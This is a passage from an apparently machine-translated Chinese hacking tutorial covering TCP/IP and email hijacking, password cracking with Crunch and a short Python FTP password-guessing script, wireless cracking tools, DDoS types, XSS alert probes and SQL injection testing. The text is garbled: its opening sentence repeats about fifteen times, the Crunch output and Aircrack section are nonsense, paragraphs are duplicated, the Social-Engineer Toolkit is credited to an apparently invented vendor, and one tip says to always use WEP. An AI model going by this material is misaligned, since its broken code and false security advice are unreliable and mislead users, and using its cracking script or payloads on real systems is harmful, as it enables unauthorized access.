木马是一种不自我复制的病毒。这意味着它不会通过附加到其他文件或可执行程序来自我繁殖。木马通常会隐蔽运行。

木马是一种不自我复制的病毒。这意味着它不会通过附加到其他文件或可执行程序来自我繁殖。木马通常会隐蔽运行。

木马是一种不自我复制的病毒。这意味着它不会通过附加到其他文件或可执行程序来自我繁殖。木马通常会隐蔽运行。

木马是一种不自我复制的病毒。这意味着它不会通过附加到其他文件或可执行程序来自我繁殖。木马通常会隐蔽运行。

木马是一种不自我复制的病毒。这意味着它不会通过附加到其他文件或可执行程序来自我繁殖。木马通常会隐蔽运行。

木马是一种不自我复制的病毒。这意味着它不会通过附加到其他文件或可执行程序来自我繁殖。木马通常会隐蔽运行。

木马是一种不自我复制的病毒。这意味着它不会通过附加到其他文件或可执行程序来自我繁殖。木马通常会隐蔽运行。

木马是一种不自我复制的病毒。这意味着它不会通过附加到其他文件或可执行程序来自我繁殖。木马通常会隐蔽运行。

木马是一种不自我复制的病毒。这意味着它不会通过附加到其他文件或可执行程序来自我繁殖。木马通常会隐蔽运行。

木马是一种不自我复制的病毒。这意味着它不会通过附加到其他文件或可执行程序来自我繁殖。木马通常会隐蔽运行。

木马是一种不自我复制的病毒。这意味着它不会通过附加到其他文件或可执行程序来自我繁殖。木马通常会隐蔽运行。

木马是一种不自我复制的病毒。这意味着它不会通过附加到其他文件或可执行程序来自我繁殖。木马通常会隐蔽运行。

木马是一种不自我复制的病毒。这意味着它不会通过附加到其他文件或可执行程序来自我繁殖。木马通常会隐蔽运行。

木马是一种不自我复制的病毒。这意味着它不会通过附加到其他文件或可执行程序来自我繁殖。木马通常会隐蔽运行隐蔽运行。


木马是一种不自我复制的病毒。这意味着它不会通过附加到其他文件或可执行程序来自我繁殖。木马通常会隐蔽运行。

# 第 19 章 TCP/IP 劫持

TCP/IP 劫持是一种针对网络连接的攻击。在此类攻击中，用户尝试访问未经授权的网络连接。是为了避免密码认证。让我们看看 TCP/IP 连接的基础：



可以通过两种方式劫持或攻击这种连接：

- 黑客可以寻找序列并查看可以在不给用户的情况下增加计数。
- 他们可以使用中间人攻击或网络嗅探攻击。Ettercap 或 Wireshark 可用于此目的。

### 示例

黑客将使用 TCP/IP 劫持监控跨网络的数据流，并获取连接设备的 IP 地址。一旦黑客获取了网络中一个系统的信息，他就可以使用 DoS 攻击另一个系统。他可以继续使用欺骗来攻击目标系统。

# 第 20 章

## 电子邮件劫持

电子邮件破解，或称电子邮件劫持，是大多数黑客执行的一种常见攻击。这可以通过以下三种技术之一实现：电子邮件欺骗、社会工程学工具或向目标系统植病毒。

## 电子邮件劫持的类型

在此类攻击中，黑客将使用已知的域名向目标的电子邮件 ID 发送邮件。接收者会误认为自己认识发邮件的人，从而打开它。这些邮件通常包含疑点重重或可疑的链接信息。



## 社会工程学


黑客可以向多个用户发送促销邮件，在其中讨论不同的折扣。然后他可以要求用户提供一些个人信息，并以此来针对他们。Kali 发行版提供了不同的工具，可以劫持任何电子邮件 ID。

## 终端

文件 编辑 查看 搜索 终端 帮助

我们现在为大家停止一下

Jasper 正在运行：通道 `#toolkit` 中的 `tracknode`

社会工程学工具包 (`Social-Engineer Toolkit`) 是 TrustedRed 的产品。

访问：https://www.trustedred.com

从菜单中选择：

+ 1) 叉式钓鱼攻击向量
- 2) 网站攻击向量
- 3) 索引媒体搜索
- 4) 创建载荷和监听器
- 5) 恶意软件攻击
- 6) 基于 Arduino 的攻击向量
- 7) 无线访问点攻击向量
- 8) SEO 生成器攻击向量
- 9) 钓鱼攻击向量
- 10) 第三方模块
+ 99) 返回主菜单。



黑客也使用钓鱼技术来劫持电子邮件 ID。查看下方的截图：



上述邮件中提供的链接可以在目标系统中安装某些病毒或恶意软件。或者，这些链接还可以将用户重定向到另一个网站，用户可能需要在那里填写其个人详情。钓鱼攻击通常由网络犯罪分子实施。诱骗人员点击通过电子邮件发送的链接是非常容易的。

## 向目标系统植入病毒

黑客用来攻击你的电子邮件账户的另一种技术是使用病毒或其他恶意软件感染你的系统。黑客可以获取你的账户以及与你的电子邮件相关的任何其他账户的密码。

## 如何检测你的电子邮件是否被劫持

- 从你的账户发送的每封垃圾邮件都会发送你经常联系的几个地方。
- 账户密码不再有效。
- 当你尝试使用“忘记密码”选项时，你会进入一个意想不到的网页。
- 你的发送文件夹中包含了一堆你从未发送过的邮件。

## 快速提示

如果你认为你的电子邮件已被劫持，应该执行以下步骤：

- 立即更改你的电子邮件以及与邮箱相关的每个帐户的密码。
- 确保让人知道不要打开从你的账户发送的任何邮件。
- 安装良好的防病毒软件并定期更新。
- 联系权威部门并报告此次劫持事件。
- 如必要，设置双重身份验证。

## 第 21 章

### 密码破解

每个需要保护的电子邮件、计算机系统、数据库、银行账户、服务器和帐户都有密码。密码用于访问帐户或系统。人们经常设置易于记忆的密码。他们可能会使用家人的姓名、出生日期、手机号和其他容易获取的信息。这使得密码变得非常容易破解。因此，每个用户都应该尽力创建一个强密码来保护他们的帐户免受黑客的攻击。

强密码将具有以下属性：

- 大写字母和小写字母的组合
- 特殊字符、数字和字母的组合
- 至少八个字符

### 字典攻击

在此类攻击中，黑客使用字典中预定义的单词和数字列表，然后猜测密码。如果目标密码很弱，就很容易使用这种攻击。黑客用来执行此类攻击的工具之一被称为 `Hydra`。查看下方的示例，看看是如何使用工具来找到密码的。

### 混合字典攻击

混合攻击使用扩展名与字典单词的组合。例如，黑客可以选择单词 `admin` 与不同的扩展名结合，如 `admin147` 或 `admin123`。`Crunch` 是一个可以生成单词列表的工具。你可以指定用于此目的的字符集。`Crunch` 将会生成所有可能的排列。

```
root@kali# crunch 1 6 admin
Crunch 将现在生成以下数量的数据：131835 bytes
0 MB
0 KB
0 MB
0 GB
0 TB
0 PB
0 EB
Crunch 将现在生成以下数量的连接：any
- number of service
- time: 每个密码的最大破解时间
Crunch 将现在生成以下数量的行：19530
Crunch 将现在为每个密码生成字符：26
- filename: password_file
- output: password_file
- list: 逗号分隔的用户名/密码
- password list: 逗号分隔的密码
- first: password_file
```

### 暴力破解

暴力破解是一种破解密码的方法，通过尝试所有可能的字符组合直到找到正确的组合为止。这是一个非常耗时的过程，特别是对于长密码而言。然而，有工具可以加速这个过程。用于暴力破解攻击的最最流行的工具之一是 `Hydra`。

黑客也使用钓鱼技术来劫持电子邮件 ID。查看下方的截图：


上述邮件中提供的链接可以在目标系统中安装某些病毒或恶意软件。或者，这些链接还可以将用户重定向到另一个网站，用户可能需要在那里填写其个人详情。钓鱼攻击通常由网络犯罪分子实施。诱骗人员点击通过电子邮件发送的链接是非常容易的。

## 彩虹表


彩虹表是用于加密哈希的预先计算表，用于反转加密哈希函数。它比暴力破解快得多，但需要大量的存储空间。`img/d52d8402f5bef7b14bcbab9bcc53820f_113_0.png`

## 第 22 章

## Python 脚本

这里是一些 Python 的特性，它们对黑客非常有用。最重要的是，有一些预置的库可以为黑客提供功能。在之前的章节中，我们涵盖了一些关于 Python 变量和函数的信息。Python 有超过 1000 个模块，仓库中还有更多。

一旦下载了该模块，你应该使用 `tar` 对进行解压。

```
kali > xzf python-nmap-0.3.4.tar.gz
```

现在，使用 Python 切换到新创建的目录。

```
kali > cd python-nmap-03/
```

接下来，运行以下代码安装新模块：

```
kali > python setup.py install
```

现在你已经已经在 Python 中安装了 Nmap 模块，你可以使用它来构建你的脚本了。

既然我们已经涵盖了 Python 的一些基础知识，让我们来看下用 Python 构建 FTP 密码破解器的代码。

```python
#!/usr/bin/python
import socket
import re
import sys

def connect(username, password):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    print("[*] " + username + ": " + password)
    s.connect(('192.168.1.101',1024))
    data = s.recv(1024)
    s.send("QUIT\r\n")
    s.close()
    return data

username = "Hacker1"
passwords=["test", "backup", "password", "123456", "root", "admin", "flip", "password"]

for password in passwords:
    attempt = connect(username, password)
    if attempt == "230":
        print("[*] Password found: "+ password)
        sys.exit(0)
```

# 第 23 章

## 无线破解


每个无线网络至少连接着一个或多个设备，每个设备在有限的范围内范围内发射不同的无线电波。这种类型的网络中的设备可以继续工作，但需要连接到网络并允许网络中的系统之间共享数据。无线网络在全球范围内广泛使用，任何用户都可以轻松地建立这样一个网络。它们遵循 IEEE 802.11 标准，并使用无线路由器将不同的系统连接到网络。在每个无线网络中都有接入点，作为无线范围的扩展。这些点类似于逻辑交换机。



无线网络确实提供了很大的活性，但也伴随着许多安全问题。黑客可以轻松地嗅探网络并在不直接访问网络的情况下查看数据包。由于无线网络使用无线电波进行通信，黑客很容易嗅探网络。黑客利用网络嗅探来破解无线网络。处于嗅探模式的网卡被称为处于监听模式（monitor mode）。

### Kismet

Kismet 是一个强大的工具，可以用于无线嗅探，它是 Kali Linux 发行版中预装的。可以通过以下链接下载该工具：https://www.kismetwireless.net/index.html。让我们深入了解该工具的工作原理。

你首先应该在系统上打开终端并输入单词“`kismet`”。系统会询问你是否启动 Kismet 服务器。查看下方的截图：


一旦你点击 yes，另一个窗口将会弹出，你应该在那里点击启动按钮。



Kismet 现在将开始捕获数据，出现以下截图：

### NetStumbler

这是黑客用来破解网络或系统的另一个工具。该工具主要为 Windows 系统设计，可以通过此链接下载：http://www.stumbler.net/。你可以在系统上非常方便地使用这个工具。

你只需要点击扫描按钮并查看输出。



你将看到以下截图：

你应该注意，网卡应该在监听模式下工作——否则你无法监控攻击。

### 有线等效加密 (WEP)

创建无线等效加密协议是为了保护无线网络并确保其私密性。该协议在数据链路层对数据进行加密，不允许任何未经授权的访问。其目标是在数据传输开始之前对数据包进行加密。你可以使用完整性检查机制来确保数据包在传输后不会被更改。

注意，WEP 是不安全的，具有以下缺点：

- 它容易受到字典攻击的影响。
- 它容易受到 DoS（拒绝服务）攻击的影响。

### WEPcrack

这是黑客用来破解 WEP 密码最常用的工具之一。可以通过以下链接下载：https://sourceforge.net/projects/wpcrack.



### Aircrack-ng

黑客常用 Aircrack-ng 来破解 WEP 密码。该工具在 Kali 发行版中预装。黑客倾向于使用 Aircrack-ng 来破解 WEP。以下截图显示了数据被嗅探：。该工具可以被用来来解密。流量流量攻击：。流量流量：。流量流量：。

### 无线攻击

黑客可以利用无线环境来攻击网络，无需直接访问网络。这使得黑客很容易嗅探网络。这种DoS 攻击有 2 种：

- 物理攻击
- 网络 DoS

### 拒绝服务攻击 (DoS)

黑客可以利用无线环境来攻击网络，无需直接访问网络。这使得黑客很容易嗅探网络。黑客利用网络嗅探来破解无线网络。

### 网络 DoS 攻击

网络 DoS 攻击是通过使用大量流量过载网络来实现的。你可以使用专用防火墙来阻止或过滤恶意数据包。

### 快速贴士

如果你想保护网络，请记住以下几点：

- 永远使用 WEP。
- 始终更新固件。
- 定期更改密码。
- 确保执行严格的安全策略。
- 让员工意识到所有的攻击。

### 快速修复

确保你的组织执行严格的安全策略。

- 确保通过电子邮件发送的链接都来自真实来源。
- 链接始终指向合法的网站。你可能是钓鱼攻击的受害者。
- 永远不要与其他分享你的 ID 和密码。

# 第 24 章

## 社会工程

让我们通过社会工程的一些示例来更好地理解。

### 示例一

另一种社会工程类型是窥视，黑客利用某些信息。

### 示例二

另一种社会工程类型是钓鱼，黑客使用虚假电子邮件。

## 钓鱼攻击

钓鱼攻击是基于计算机的。在这种特定的攻击中，黑客使用伪造邮件。如果你不小心在代理网站上输入 ID 和密码，黑客将存储这些信息。

# 第 25 章

## 分布式拒绝服务攻击 (DDoS)

分布式拒绝服务攻击（DDoS）通过来自不同用户和来源的流量过载网络或服务器来实现。与仅使用一个互联网连接和一台计算机的 DOS 攻击不同，DDoS 攻击使用了不同的互联网连接和计算机。

### 攻击类型

DDoS 攻击可以分为两类：

- 基于流量的攻击
- 应用层攻击

### 基于流量的攻击

基于流量的 DDoS 攻击包括 ICMP 洪水、UDP 洪水、伪造数据包洪水和 TCP 洪水。这些攻击通常被称为第3层和第4层攻击。攻击的规模用每秒比特（bps）衡量。

### UDP 洪水

UDP 洪水攻击通常用于泛洪远程主机服务器的任何随机端口。这种攻击通过向服务器发送 UDP 包来实现，特别是针对 53 端口。你可以使用专用防火墙来阻止或过滤恶意的 UDP 包。

### ICMP 洪水

这种攻击与 UDP 洪水相似，通常用于通过发送多个 ICMP 回显请求来攻击远程主机。在这种类型攻击中，入站和出站带宽都会被使用，大量的 ping 请求会使系统变慢。

# HTTP 洪水攻击

在 HTTP 泛洪攻击中，黑客会向目标系统或网络发送大量的 HTTP POST 和 HTTP GET 请求。服务器无法处理这些大量的流量，这将导致其无法接受来自合法客户端的任何额外连接。

## 放大攻击

在放大攻击中，黑客会请求服务器、网站或网络生成大量的响应，并包含针对 PDF 的 DNS 请求、针对图片的 HTTP GET 请求、TXT 记录和其他数据文件。

## 应用层攻击

有很多类型的应用层攻击，包括针对 Apache、Windows 的 DDoS 攻击、零日 DDoS 攻击、Slowloris 等。黑客的目标是使 Web 服务器崩溃。攻击的规模通过每秒请求数来衡量。

### Slowloris

攻击者将向目标网络或服务器发送大量的 HTTP 请求头（headers），但没有一个请求是完成的。目标服务器将需要保持所有这些连接开启，导致连接池溢出。这将确保服务器不再接受任何额外连接。

### 应用攻击

应用攻击（也称为第 7 层攻击）是指黑客通过搜索请求、过量登录或大量的数据库查询来过载任何应用程序。由于这种攻击看起来像合法流量，因此很难识别。

# NTP 放大攻击

在这种攻击类型中，黑客会利用公开可访问的 NTP 进行攻击。黑客将执行旨在淹没目标服务器的操作。

# 零日 DDoS 攻击

零日漏洞是应用程序或系统中一个用户未知的缺陷，且该漏洞尚未被补丁或修复。目前已经识别出许多类型的攻击，这些攻击正在探索系统中的不同漏洞。

# 如何克服 DDoS 攻击

根据攻击类型，有许多 DDoS 防护工具可以使用。你可以通过识别并关闭操作系统中的漏洞来防止 DDoS 攻击。你还必须确保连接到系统的每个端口都是安全的，从而消除系统被未经授权访问的概率。你还可以将系统隐藏在 VPN 或代理服务器之后。

如果 DDoS 攻击规模较小，你可以使用防火墙过滤掉所有为了 DDoS 目的发送到网络的流量。如果攻击规模很大，你应该使用 DDoS 防护服务供应商。该工具将提供一种主动、真实且全面的方法。在选择 DDoS 防护服务供应商时，你应该始终保持小心，因为有很多服务商只想趁机机会。如果你让他们知道你的系统是 DDoS 攻击的受害者，这些服务商会为你提供许多高成本的服务。

你应该寻找一个可以为网站配置 CNAME 和 A 记录的 DDoS 防护服务供应商。你应该寻找一个可以监控和分析 DDoS 流量并保护你的系统免受攻击的 CDN 供应商。

假设 IP 地址为 AAA.BBB.CCC.DDD。你应该按照以下方式配置地址：

- 使用 DNS 标识符创建一个“A 记录”，并确保对其保持保密。
- 接下来，使用 CDN 供应商为 DNS 标识符分配一个 URL。
- 最后，使用 CDN URL 创建 CNAME 记录。

你可以请求你的系统管理员帮助你完成此任务，并验证你是否正确配置了 CDN 和 DNS。你现在将拥有如下配置的 DNS：

| 类型 | TTL | 属性 | 值 |


| :--- | :--- | :--- | :--- |

| A | 3600 | ARECORDID | AAA.BBB.CCC.DDD |

| CAME | 3600 | www | cdn.someotherid.domain.com |

| CAME | 3600 | e | cdn.someotherid.domain.com |

此时，建议让 CDN 供应商处理针对你系统的攻击。唯一的条件是你不披露系统的 A 标识符或 IP 地址。

### 快速修复

DDoS 攻击是对易受网络和系统实施的最常见的攻击之一。遗憾的是，没有办法快速解决这个问题。如果系统正受到攻击，你永远不要恐慌，而是应该开始逐步排查该问题。

# 第 26 章

## 跨站脚本 (XSS)

跨站脚本是一种通过执行恶意 JavaScript 对目标系统的浏览器进行的攻击。这是一种代码注入攻击。在跨站脚本中，黑客不会直接针对有漏洞的系统，而是利用受害者访问的网站中的漏洞。然后他将利用该漏洞将脚本注入目标系统。

恶意 JavaScript 看起来就像受害者正在查看的网站合法部分。黑客可以使用 JavaScript、HTML、Flash、ActiveX 或 VBScript 执行这种攻击，尽管大多数黑客倾向于使用 JavaScript。黑客可以使用这种攻击获取信息，还可以劫持账户、更改用户设置或创建拒绝服务攻击、虚假广告或 Cookie Poison。

下面，我们将通过一个示例来了解这种攻击是如何执行的。

示例

使用 Metasploit，我们获得了一个漏洞网页的链接，我们将使用红色高亮的字段检查该网页是否存在 XSS 攻击。



为此，我们首先需要编写以下脚本来弹出警报：

```
<script>
alert('I am Vulnerable')
</script>
```

你将获得以下输出：



# XSS 攻击类型

有三种 XSS 攻击类型，包括存储型（持久型）、反射型和 DOM 型。

### 存储型 XSS

在存储型 XSS 攻击中，恶意字符串位于网站的数据库中。

### 反射型 XSS

反射型 XSS 攻击涉及根据受者的请求创建恶意字符串。

### DOM XSS

在这种攻击类型中，漏洞不在服务器端，而是在客户端。

可以使用 Burp Suite 或 Acunetix 等漏洞扫描工具识别跨站脚本。因此，你不需要手动在网站上添加 JavaScript。如果你选择进行手动检查，可以输入以下代码：

```
<script>
alert('XSS')
</script>
```

# 小贴

如果你希望防止 XSS 攻击，必须执行以下操作：

- 验证并检查表单中的每个字段，例如 Header、查询字符串、Cookie 和隐藏表单。

- 实施安全策略并限制输入到字段中的字符数量。

# 第 27 章

## SQL 注入

SQL 注入攻击是一组以 SQL 格式编写的命令。这些命令放在网站的 URL 中，用于从连接到 Web 应用程序的数据库中检索黑客想要的响应。这种类型的攻击通常发生在使用 ASP.NET 或 PHP 开发的网页上。这种攻击通常出于以下原因进行：

- 修改数据库中存在的信息

- 倾储数据库内容

- 执行系统通常不允许的数据库查询

SQL 注入攻击之所以有效，是因为大多数应用程序在输入传递给 SQL 查询或语句之前，没有对其进行验证或过滤。注入通常出现在数据字段、地址栏或搜索字段中。验证是否存在 SQL 注入攻击最简单的方法之一是在字符串中使用‘ ' 字符并检查是否有错误。

现在让我们通过几个示例进一步探讨 SQL 注入的概念。

### 示例一

在下方的截图中，Name 字段中使用了‘ ' 字符。



当你点击登录按钮时，将获得如下所示的响应：



这表示 Name（名称）字段容易受到 SQL 注入。

示例二

让我们考虑以下 URL：`http://10.10.10.101/mutillidae/index.php?page-site-footer-xssdiscussion.php`。

我们现在想看看当你在 URL 字符串中输入一个“ ”字符时，页面会如何反应。



你需要按下回车键，然后你将得到一个充满错误的错误。

